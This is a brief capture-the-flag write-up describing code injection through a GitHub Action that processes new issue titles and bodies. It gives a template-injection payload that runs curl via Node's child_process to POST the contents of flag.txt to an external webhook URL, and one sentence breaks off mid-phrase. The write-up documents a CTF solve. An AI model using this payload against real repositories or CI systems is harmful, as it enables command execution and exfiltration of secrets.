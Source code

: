 # Issue Tracker
## Author: Helen O'Connell (hsoconne)
## Team: 0wnth3pwn
**Vulnerability** <br>
When a new issue is created, a Github Action runs. Within this action, there is a possibility of code execution. The title and body of these <br>
**Step 1** <br>
Create a new issue <br>
**Step 2** <br>
Make the following code block the body and title. Using a webhook site to send the flag too.
`{{process.mainModule.require('child_process').exec('curl -XPOST -d "$(cat flag.txt)" https://webhook.site/c6d14f4c-9d88-47a9-90a4-dde982b6893f')%7D%7D`
<br>
**Step Three** <br>
Check the webhook site for the contents of the flag.txt file. For ours, was accessible at (https://webhook.site/c6d14f4c-9d88-47a9-90a4-dde982b6893f)
<br>
